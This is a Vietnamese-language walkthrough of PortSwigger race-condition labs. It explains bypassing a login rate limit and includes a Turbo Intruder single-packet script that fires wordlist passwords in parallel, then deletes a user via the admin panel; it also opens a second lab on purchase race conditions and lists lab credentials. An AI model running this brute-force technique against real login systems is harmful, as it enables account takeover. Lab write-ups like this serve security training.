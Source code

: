 ![image](https://hackmd.io/_uploads/HyEwLbrC1e.png)

Ý tưởng của bài lab là dựa vào khoảng thời gian trong lúc server xử lí đăng nhập và tăng số lần incorrect login (nếu password sai) để gửi được nhiều hơn 3 request cùng lúc, đẩy nhanh quá trình bruteforce.

Có 2 hướng đi là sử dụng Send in parallel nhưng sẽ phải thử và đổi password gửi đi bằng tay cho đến khi tìm ra.

Cách thứ 2 là sử dụng script có sẵn của Turbo Intruder có tên` race-single-packet-attack.py`

:::spoiler Payload
```python
def queueRequests(target, wordlists):

    # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # for more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # the 'gate' argument withholds part of each request until openGate is invoked
    # if you see a negative timestamp, the server responded before the request was complete
    for word in wordlists.clipboard:
        engine.queue(target.req,word, gate='race1')

    # once every 'race1' tagged request has been queued
    # invoke engine.openGate() to send them in sync
    engine.openGate('race1')


def handleResponse(req, interesting):
    table.add(req)
```
:::

![image](https://hackmd.io/_uploads/BkmArfr0yl.png)

Xuất hiện repsonse với status code 302 - master

![image](https://hackmd.io/_uploads/S1duRGS0Je.png)

`Show response in browser` --> xuất hiện admin panel, xóa user và hoàn thành bài lab

## Multi-endpoint race conditions
### Target Goal
Quy trình mua của bài lab này có lỗ hổng race condition cho phép mua vật phẩm với giá ngoài ý muốn

Để giải bài lab, mua thành công "Lightweight L33t Leather Jacket"

Credentials: `wiener:peter`.
